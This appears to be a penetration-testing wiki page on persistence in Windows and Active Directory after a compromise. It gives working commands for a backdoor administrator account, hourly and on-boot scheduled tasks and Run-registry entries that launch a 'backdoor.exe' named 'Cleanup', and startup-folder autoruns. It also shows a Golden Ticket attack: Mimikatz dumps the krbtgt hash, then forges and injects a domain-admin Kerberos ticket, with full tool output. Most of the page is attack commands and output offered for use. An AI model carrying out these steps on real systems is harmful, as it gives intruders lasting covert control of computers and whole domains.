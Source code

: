 ```yaml
---
description: >-
  When a computer or even the entire domain is compromised, how do you keep it
  that way?                  (note: not normally required in a pentest)
---
```


# Persistence

## Local Computer

With administrative privileges on a computer, you can do anything. If we want to keep control of this computer, even after someone's password changes, for example, we can create some "backdoors".

One simple way is to **create a new local account** on the computer and give it the `BUILTIN\Administrators` group:

```powershell
net user $USERNAME $PASSWORD /add
net localgroup Administrators $USERNAME /add
```

This later allows you to log in as that user and dump cached creds like [#post-exploitation-mimikatz](local-privilege-escalation.md#post-exploitation-mimikatz "mention")

Another method is creating a scheduled task that executes hourly or in another period and runs a program that gives you a reverse shell, for example.&#x20;

```powershell
# Run every 1 hour
schtasks /create /sc HOURLY /mo 1 /tn "Cleanup" /tr "C:\Windows\Tasks\backdoor.exe"
# Run on startup, as the SYSTEM user
schtasks /create /sc ONSTART /tn "Cleanup" /ru "SYSTEM" /tr "C:\Windows\Tasks\backdoor.exe"
```

Then another classic is Autoruns, programs that register themselves to start on startup. You can place binaries or scripts in the following `shell:startup` directory, and they will execute on startup:

```powershell
%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup
```

The Windows Registry can also be a great sea of abusable keys that automatically run programs. The `Software\Microsoft\Windows\CurrentVersion\Run` path for `HKCU` and `HKLM` contains a key for every program that should start at startup, for only the current user or all users:

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"># Run for the current user
<strong>reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "Cleanup" /t REG_SZ /d "C:\Windows\Tasks\backdoor.exe" /f
</strong># Run for all users
<strong>reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "Cleanup" /t REG_SZ /d "C:\Windows\Tasks\backdoor.exe" /f
</strong></code></pre>

## Active Directory

When an entire active directory is compromised, a lot of integrity is lost. Any secrets can be read out, and later used to log in as any user after your access has been revoked. Here are some well-known attacks that real threat actors use to persist after a breach if all the required secrets are not rotated.&#x20;

### Golden Ticket

We've seen [#forge-silver-tickets](lateral-movement.md#forge-silver-tickets "mention") where we have the hash of an SPN and can forge a Kerberos ticket as any user for that service. Taking this one step further is possible when we compromise the **NTLM hash of the** `krbtgt` **user**. Because TGTs are encrypted with this secret, we can forge any ticket in the future if we know it.&#x20;

On the Domain Controller, we will ask the LSA server for all known credentials using Mimikatz:

<pre class="language-javascript"><code class="lang-javascript"><strong>mimikatz # privilege::debug
</strong>Privilege '20' OK

<strong>mimikatz # lsadump::lsa /patch
</strong>Domain : $DOMAIN / S-1-5-21-5386719015-7638691639-2457330780

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 8a772f3282654f2f9e165e19926a32a4

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
<strong>NTLM : 752da57f6d5047d6a251359025bd97e1
</strong>...
</code></pre>

This finds the NTLM hash for the `krbtgt` user which can now be used to forge any ticket. When the time comes after vulnerabilities have been patched, the attacker can still get a new valid session.

We provide the domain and its SID (found using `whoami /user`), then choose a user with a lot of privileges like a Domain Admin, and give the `krbtgt` NTLM hash:

<pre class="language-javascript" data-overflow="wrap"><code class="lang-javascript"><strong>mimikatz # kerberos::purge
</strong>Ticket(s) purge for current session is OK

<strong>mimikatz # kerberos::golden /ptt /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /user:jen /krbtgt:752da57f6d5047d6a251359025bd97e1
</strong>User      : jen
Domain    : corp.com (CORP)
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500    
Groups Id : *513 512 520 518 519
ServiceKey: 1693c6cefafffc7af11ef34d1c788f47 - rc4_hmac_nt
Lifetime  : 9/16/2022 2:15:57 AM ; 9/13/2032 2:15:57 AM ; 9/13/2032 2:15:57 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'jen @ corp.com' successfully submitted for current session

mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF665F1B800
</code></pre>

This injects it into our current session, and the newly spawned `cmd.exe` will allow you to do anything on the domain through Kerberos, like [#psexec-smb](lateral-movement.md#psexec-smb "mention") with a hostname instead of an IP to get a shell.&#x20;
